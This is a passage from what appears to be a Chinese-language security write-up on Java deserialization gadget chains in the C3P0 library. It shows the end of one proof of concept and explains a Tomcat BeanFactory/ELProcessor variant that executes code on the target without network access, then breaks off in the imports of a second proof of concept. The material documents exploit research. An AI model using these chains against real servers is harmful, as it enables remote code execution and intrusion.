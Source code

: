 ```java
        field.set(poolBackedDataSourceBase, connectionPoolDataSource);

        String serializeData = serialize(poolBackedDataSourceBase);
        System.out.println(serializeData);
        unserialize(serializeData);
    }
}
```

<div align=center><img src="./images/2.png"></div>

## BeanFactory
### 过程分析
在`URLCLassLoader-Gadget`中利用的加载远程的恶意类, 当目标环境无法出网时, 则无法使用该方法. 在`ReferenceableUtils#referenceToObject`中注意到, 当`var0.getFactoryClassLocation()`值为`null`时, 会默认加载而不是远程加载, 接着在调用`getObjectInstance`方法, 这里可以参考`JNDI`在高版本`JDK`中的利用姿势, 参考[Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java). 通过`Tomcat`的`getObjectInstance`方法调用`ELProcessor`的`eval`方法实现表达式注入, 当目标环境是`Tomcat8`理论上是可以实现无网利用的.

### POC

```java
package org.h3rmesk1t.C3P0;

import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;
import org.apache.naming.ResourceRef;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.naming.StringRefAddr;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.sql.SQLException;
```